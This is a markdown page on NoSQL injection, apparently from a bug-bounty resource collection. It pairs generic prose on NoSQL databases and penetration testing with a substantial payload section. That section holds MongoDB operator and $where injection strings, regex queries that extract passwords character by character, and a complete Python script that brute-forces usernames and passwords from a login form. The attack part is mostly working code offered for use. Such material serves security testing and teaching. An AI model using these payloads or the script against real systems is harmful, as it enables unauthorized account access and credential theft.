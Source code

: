 # NoSQL Injection

- [Introduction](#introduction)
- [Understanding NoSQL Databases](#understanding-nosql-databases)
- [Bug Bounties and NoSQL](#bug-bounty-programs-and-nosql)
- [Common NoSQL Vulnerabilities](#common-nosql-database-vulnerabilities)
- [Ethical Hacking and Penetration Testing](#ethical-hunting-and-penetration-testing)
- [Tutorials on NoSQL Injection](#tutorials-for-nosql-vulnerabilities)
- [Payloads for NoSQL Injection](#payloads-for-nosql)

# Introduction:
In the world of software development and information security, NoSQL (Not Only SQL) databases have gained significant popularity due to their scalability, flexibility, and high performance. These databases differ from traditional SQL databases by offering a schema-less structure, making them well-suited for handling large amounts of unstructured or semi-structured data. In the context of bug bounty programs, ethical hacking, and penetration testing, NoSQL databases present unique challenges and opportunities. This article explores the role of NoSQL in bug bounty programs and how it impacts ethical hunting and penetration testing.

### Understanding NoSQL Databases:
NoSQL databases are designed to handle big data requirements, enabling efficient storage and retrieval of large volumes of diverse data types. Unlike SQL databases, which rely on structured tables and predefined schemas, NoSQL databases employ various data models such as key-value stores, document stores, columnar databases, and graph databases. This flexibility allows developers to build scalable and distributed systems capable of handling dynamic data structures.

## Bug Bounty Programs and NoSQL:
Bug bounty programs have become a crucial component of many organizations' security strategies. By incentivizing ethical hackers to uncover vulnerabilities, organizations can identify and address potential security flaws before malicious actors exploit them. NoSQL databases, being widely adopted by modern applications, are often the focus of bug bounty programs.

### Common NoSQL Database Vulnerabilities:

Injection Attacks: Just like SQL databases, NoSQL databases are susceptible to injection attacks. NoSQL injection occurs when untrusted input is passed to query languages (e.g., MongoDB's query language) and allows an attacker to manipulate queries or access unauthorized data.

Authentication and Authorization Issues: Misconfigured access controls or weak authentication mechanisms can expose sensitive data in NoSQL databases. A bug bounty program can help identify these vulnerabilities and recommend stronger security measures.

Cross-Site Scripting (XSS): Although typically associated with web applications, NoSQL databases that expose data through user interfaces may also be vulnerable to XSS attacks. By injecting malicious scripts into user-supplied input, an attacker can manipulate the behavior of the NoSQL database's interface.

Denial-of-Service (DoS) Attacks: NoSQL databases may be vulnerable to DoS attacks, which aim to disrupt the availability of the system by overwhelming it with malicious requests or resource-intensive operations. Identifying and patching these vulnerabilities is crucial for maintaining the database's stability and reliability.

### Ethical Hunting and Penetration Testing:
Ethical hacking and penetration testing involve actively seeking vulnerabilities within a system or application to help improve its security posture. When it comes to NoSQL databases, ethical hunters and penetration testers face specific challenges:

Understanding Data Models: Given the variety of NoSQL data models, it is important for testers to have a strong understanding of the specific database technology being used. This includes comprehending the query language, data structures, and indexing mechanisms employed.

Validating Input and Query Sanitization: Testers must pay attention to how input data is processed and validated by the application before being passed to the NoSQL database. Ensuring proper input sanitization is critical to prevent injection attacks.

In-Depth Knowledge of Security Controls: Testers should be familiar with the security controls and features provided by the NoSQL database platform. This includes understanding authentication and authorization mechanisms, encryption options, and logging capabilities.

# Conclusion:
NoSQL databases have revolutionized the way data is stored and processed in modern applications. As bug bounty programs and ethical hacking initiatives continue to gain prominence, the need to address NoSQL-specific vulnerabilities becomes crucial. By actively testing and uncovering security flaws in NoSQL databases, ethical hunters and penetration testers play a vital role in improving the security of these systems. Organizations must invest in comprehensive bug bounty programs and penetration testing frameworks to ensure the resilience and integrity of their NoSQL database deployments.

### Tutorials for NoSQL Vulnerabilities

- [NoSQL Injection in MongoDB](https://zanon.io/posts/nosql-injection-in-mongodb/) - A detailed article explaining NoSQL Injection in MongoDB
- [Testing for NoSQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection) - A pretty good tutorial by OWASP
- [NoSQL Injection Cheatsheet](https://nullsweep.com/nosql-injection-cheatsheet/) - A cheatsheet for NoSQL injection by Null Sweep
- [NoSQL Injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection) - A pretty good article explaining NoSQL Injection


### Payloads for NoSQL 

**SQL - Mongo**
```
Normal sql: ' or 1=1-- -
Mongo sql: ' || 1==1//    or    ' || 1==1%00

```

**Extract Length Information**
```
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
# True if the length equals 1,3...

```

**Extract Data Information**
```
in URL (if length == 3)
username[$ne]=toto&password[$regex]=a.{2}
username[$ne]=toto&password[$regex]=b.{2}
...
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}

```

**SQL - Mongo**
```
/?search=admin' && this.password%00 --> Check if the field password exists
/?search=admin' && this.password && this.password.match(/.*/)%00 --> start matching password
/?search=admin' && this.password && this.password.match(/^a.*$/)%00
/?search=admin' && this.password && this.password.match(/^b.*$/)%00
/?search=admin' && this.password && this.password.match(/^c.*$/)%00
...
/?search=admin' && this.password && this.password.match(/^duvj.*$/)%00
...
/?search=admin' && this.password && this.password.match(/^duvj78i3u$/)%00  Found

```

**MongoDB Payloads**

```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1

```

**Brute Force Login Username and Passwords from POST Login**

```
import requests
import string

url = "http://example.com"
headers = {"Host": "exmaple.com"}
cookies = {"PHPSESSID": "s3gcsgtqre05bah2vt6tibq8lsdfk"}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":"", "login": "login"}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
            if int(pr.status_code) == 302:
                password += c
                break
        if c == possible_chars[-1]:
            print("Found password "+password[1:].replace("\\", "")+" for username "+username)
            return password[1:].replace("\\", "")

def get_usernames():
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}
    for c in possible_chars:
        username = "^" + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
        if int(pr.status_code) == 302:
            print("Found username starting with "+c)
            while True:
                for c2 in possible_chars:
                    params["username[$regex]"] = username + c2 + ".*"
                    if int(requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False).status_code) == 302:
                        username += c2
                        print(username)
                        break

                if c2 == possible_chars[-1]:
                    print("Found username: "+username[1:])
                    usernames.append(username[1:])
                    break
    return usernames


for u in get_usernames():
    get_password(u)

```